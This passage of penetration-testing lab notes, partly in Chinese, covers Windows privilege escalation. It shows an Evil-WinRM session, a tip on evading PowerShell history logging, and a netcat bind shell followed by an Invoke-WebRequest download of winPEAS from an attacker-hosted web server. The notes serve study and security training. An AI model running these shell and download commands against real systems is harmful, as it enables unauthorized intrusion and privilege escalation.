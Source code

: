 ```
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\daveadmin\Documents> whoami
clientwk220\daveadmin
*Evil-WinRM* PS C:\Users\daveadmin\Documents> cd /
*Evil-WinRM* PS C:\> 

```
> 成功執行 cmd

>[!Caution]
>Administrators can prevent PSReadline from recording commands by setting the -HistorySaveStyle option to SaveNothing with the [Set-PSReadlineOption](https://learn.microsoft.com/en-us/powershell/module/psreadline/set-psreadlineoption?view=powershell-7.2) Cmdlet. Alternatively, they can clear the history file manually.

#### Use the Event Viewer to search for events recorded by Script Block Logging
![image](https://hackmd.io/_uploads/r1F03pWcyl.png)
![image](https://hackmd.io/_uploads/ByizT6bcJg.png)

### Automated Enumeration
#### 1. Windows 自動化提權工具: [winPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)
在 Kali Linux 上安裝 peass 套件，可透過 Python Web 伺服器 將 winPEAS 提供給 Windows 目標機器執行。
```
┌──(chw㉿CHW)-[~]
└─$ sudo apt update
sudo apt install -y peass
[sudo] password for chw: 
...
┌──(chw㉿CHW)-[~]
└─$ cp /usr/share/peass/winpeas/winPEASx64.exe .

┌──(chw㉿CHW)-[~]
└─$ python3 -m http.server 80           
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) 
|
```
接著 nc bind shell 到目標機器
```
┌──(chw㉿CHW)-[~]
└─$ nc 192.168.170.220 4444
Microsoft Windows [Version 10.0.22621.1555]
(c) Microsoft Corporation. All rights reserved.

C:\Users\dave>powershell
powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Users\dave> iwr -uri http://192.168.45.186/winPEASx64.exe -Outfile winPEAS.exe  
iwr -uri http://192.168.45.186/winPEASx64.exe -Outfile winPEAS.exe
```
> 使用 `Invoke-WebRequest` (iwr 的縮寫) 遠端伺服器下載 winPEASx64.exe


[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> cd C:\
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> pwd
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> dir